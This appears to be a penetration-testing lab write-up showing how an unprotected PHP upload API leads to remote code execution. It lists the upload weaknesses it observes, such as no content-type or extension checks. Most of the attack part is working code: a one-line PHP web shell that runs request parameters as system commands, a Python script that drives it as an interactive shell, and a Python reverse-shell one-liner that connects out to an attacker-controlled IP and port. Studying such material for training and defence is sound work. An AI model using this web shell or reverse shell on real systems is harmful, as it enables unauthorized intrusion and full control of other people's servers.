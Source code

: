 ## PHP File Upload via API to RCE
* Suppose we are assessing an application residing in `http://<TARGET IP>:3001`

![](2.png)

* Let us create the below file (save it as `backdoor.php`) and try to upload it via the available functionality

```php
<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>
```

![](4.png)

-  _backdoor.php_ was successfully uploaded via a POST request to `/api/upload/`. An API seems to be handling the file uploading functionality of the application.
- The content type has been automatically set to `application/x-php`, which means there is no protection in place. The content type would probably be set to `application/octet-stream` or `text/plain` if there was one.
- Uploading a file with a _.php_ extension is also allowed. If there was a limitation on the extensions, we could try extensions such as `.jpg.php`, `.PHP`, etc
- Using something like [file_get_contents()](https://www.php.net/manual/en/function.file-get-contents.php) to identify php code being uploaded seems not in place either
- We also receive the location where our file is stored, `http://<TARGET IP>:3001/uploads/backdoor.php`
- We can use the below Python script (save it as `web_shell.py`) to obtain a shell, leveraging the uploaded `backdoor.php` file

```python
import argparse, time, requests, os # imports four modules argparse (used for system arguments), time (used for time), requests (used for HTTP/HTTPs Requests), os (used for operating system commands)
parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs") # generates a variable called parser and uses argparse to create a description
parser.add_argument("-t", "--target", help="Specify the target host E.g. http://<TARGET IP>:3001/uploads/backdoor.php", required=True) # specifies flags such as -t for a target with a help and required option being true
parser.add_argument("-p", "--payload", help="Specify the reverse shell payload E.g. a python3 reverse shell. IP and Port required in the payload") # similar to above
parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes") # similar to above
args = parser.parse_args() # defines args as a variable holding the values of the above arguments so we can do args.option for example.
if args.target == None and args.payload == None: # checks if args.target (the url of the target) and the payload is blank if so it'll show the help menu
    parser.print_help() # shows help menu
elif args.target and args.payload: # elif (if they both have values do some action)
    print(requests.get(args.target+"/?cmd="+args.payload).text) ## sends the request with a GET method with the targets URL appends the /?cmd= param and the payload and then prints out the value using .text because we're already sending it within the print() function
if args.target and args.option == "yes": # if the target option is set and args.option is set to yes (for a full interactive shell)
    os.system("clear") # clear the screen (linux)
    while True: # starts a while loop (never ending loop)
        try: # try statement
            cmd = input("$ ") # defines a cmd variable for an input() function which our user will enter
            print(requests.get(args.target+"/?cmd="+cmd).text) # same as above except with our input() function value
            time.sleep(0.3) # waits 0.3 seconds during each request
        except requests.exceptions.InvalidSchema: # error handling
            print("Invalid URL Schema: http:// or https://")
        except requests.exceptions.ConnectionError: # error handling
            print("URL is invalid")
```

```sh
$ python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes
$ id
uid=0(root) gid=0(root) groups=0(root)
$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<VPN/TUN Adapter IP>",<LISTENER PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
